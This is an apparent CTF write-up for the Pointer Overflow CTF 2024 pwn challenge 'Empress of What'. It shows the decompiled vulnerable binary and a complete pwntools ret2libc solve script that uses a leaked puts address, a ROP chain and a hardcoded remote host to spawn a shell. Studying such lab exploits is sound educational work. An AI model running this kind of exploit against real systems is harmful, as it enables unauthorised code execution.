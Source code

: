 ```yaml
---
title: "Pointer Overflow CTF 2024 Writeup"
pubDate: 2025-02-18
description: "The extremely long CTF hosted by UWSP. I played with team HCS and got one solve on the Exploit category, which is basically Pwn, which is basically Binary Exploitation. Got the solve in one night but the remote was hilarious because they forgot to put the flag file 😭"
tags:
  - ctf
  - pwn
  - ret2libc
---
```



## Exploit 300 - Empress of What

> The first time I successfully built a ROP chain, I thought the guy teaching me was a wizard. It felt like Prometheus personally delivering fire to light up the room. I'm not sure why. Something about it is just so cool to me. Taking little bits and pieces and assembling your own narrative. It opened up a whole new world of possibilities. It's something I'm glad I get to share with my students every year, and something I'm glad I get to share with you now. Enjoy.

<PostFileDownload name="2024-poctf-Exploit300-1.zip" />

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Decompiled with Ghidra, and it looked like a very short challenge that only does two things: leak puts, and a buffer overflow vulnerability:

```c
void vulnerable_function(void)

{
  char local_48 [64];

  printf("Enter your input: ");
  gets(local_48);
  return;
}

void leak_function(void)

{
  printf("Leaking libc address of puts: %p\n",puts);
  return;
}

void win(char *param_1)

{
  printf("Running command: %s\n",param_1);
  system(param_1);
  return;
}

undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  leak_function();
  vulnerable_function();
  return 0;
}
```

The idea of this challenge relies on the puts address leak, allowing you to get the libc address for you to spawn a shell with. Now by using buffer overflow, I could return to the win function with `/bin/sh` as the parameter and get a shell that way.

Doing this in local was quite simple, but the only issue was getting the correct libc on remote. I used https://libc.rip/ to input the puts leak to get a list of possible libc files.

I tested each result one by one and landed with `libc6-amd64_2.31-13+deb11u11_i386.so` and it worked perfectly.

Here's the final solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'Exploit300-1')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '34.123.210.162'
port = int(args.PORT or 32006)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
# b *vulnerable_function+42
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

RIP_OFFSET = 72
POP_RDI = 0x000000000040127b
RET = 0x0000000000401016
WIN_FUNC = 0x0000000000401152

log.info(io.recvuntil(": "))
leak = int(io.recvline().strip(),16)

libc = ELF("./libc6-amd64_2.31-13+deb11u11_i386.so")
libc.address = leak - libc.symbols['puts']
log.info(f"Leak: {hex(libc.address)}")

binsh = next(libc.search(b"/bin/sh"))

payload = flat(
    cyclic(RIP_OFFSET,n=8),
    POP_RDI,
    binsh,
    RET,
    WIN_FUNC
)

io.clean()
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

Here's an example of the solve using my local libc because of course I didn't screenshot the remote solve:

![Obtaining the flag](../../images/2024/poctf.png)
